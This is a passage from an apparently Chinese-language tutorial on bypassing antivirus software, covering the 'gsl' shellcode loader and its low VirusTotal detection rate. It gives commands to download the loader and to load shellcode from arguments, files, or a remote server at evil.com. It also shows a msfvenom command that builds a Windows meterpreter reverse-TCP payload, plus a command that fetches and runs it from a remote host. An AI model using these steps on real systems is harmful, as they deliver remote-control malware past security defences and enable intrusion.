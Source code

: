 ### 1.3.2 gsl加载器(VT查杀率6/71)

gsl是`Jayl1n`根据go-shellcode进行了修改完善的工具。

下载gsl加载器：`wget https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/gsl-sc-loader.zip`

里面包含两个版本，x86和x64。

提供了三种加载方式

1、从参数传入 （必须是HEX格式）

```
gsl -s SHELLCODE -hex
```

2、从文件传入

加载 RAW 格式：`gsl -f shell.raw`

加载 HEX 格式：`gsl -f shell.hex -hex`

3、从远程服务器加载

把 SHELLCODE 文件挂在WEB目录下。（支持HTTP/HTTPS）

加载 RAW 格式：`gsl -u http://evil.com/shell.raw`

加载 HEX 格式：`gsl -u http://evil.com/shell.hex -hex`


以x64为例进行测试，先生成x64的shellcode

```
msfvenom -p windows/x64/meterpreter/reverse_tcp  LHOST=10.211.55.2 LPORT=3333 -f hex -o shell.hex
```
我就试一下远程加载`gsl64.exe -u http://10.211.55.2/shell.hex -hex`

![9fd05224d5f7fec8be2ea45f2f51905c](images/2020.05-bypass-07/10.png)